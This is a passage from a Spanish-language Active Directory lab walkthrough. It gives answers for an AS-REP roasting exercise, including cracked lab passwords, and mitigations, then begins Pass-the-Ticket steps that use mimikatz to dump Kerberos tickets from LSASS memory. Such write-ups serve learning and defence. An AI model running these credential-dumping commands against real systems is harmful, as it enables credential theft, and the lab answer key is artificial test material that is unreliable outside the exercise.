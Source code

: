         `Kerberos 5 AS-REP etype 23`
        
        ¿Qué usuario es vulnerable al tostado AS-REP?
        
        `User3`
        
        ¿Cuál es la contraseña del usuario?
        
        `Password3`
        
        ¿Qué administrador es vulnerable al tostado AS-REP?
        
        `Admin2`
        
        ¿Cuál es la contraseña del administrador?
        
        `P@$$W0rd2`
        

### Mitigaciones **AS-REP Roasting**

- Tenga una política de contraseñas seguras. Con una contraseña segura, los hashes tardarán más en descifrarse, lo que hará que este ataque sea menos efectivo
- No desactive la autenticación previa de Kerberos a menos que sea necesario, casi no hay otra manera de mitigar completamente este ataque que no sea mantener activada la autenticación previa.

---

## **Pass the Ticket con mimikatz**

Mimikatz es una herramienta de post-explotación que se usa más comúnmente para volcar credenciales de usuario dentro de una red de directorio activo, sin embargo, usaremos mimikatz para volcar un TGT de la memoria LSASS.

- Nos movemos al directorio **Downloads**
    
    `cd Downloads`
    
- Ejecutamos mimikatz
    
    `mimikatz.exe`
    
    ![image.png](image%2020.png)
    
- Miramos que los privilegios que tenemos . Tiene que contestar `Privilege '20' OK`
    
    `privilege::debug`
    
    ![image.png](image%2021.png)
    
- Vamos a exportar todos los ticket en formato **.kirbi** al directorio donde nos encontremos
    
    `sekurlsa::tickets /export`
    
    ![image.png](image%2022.png)
    
    ![image.png](image%2023.png)
    
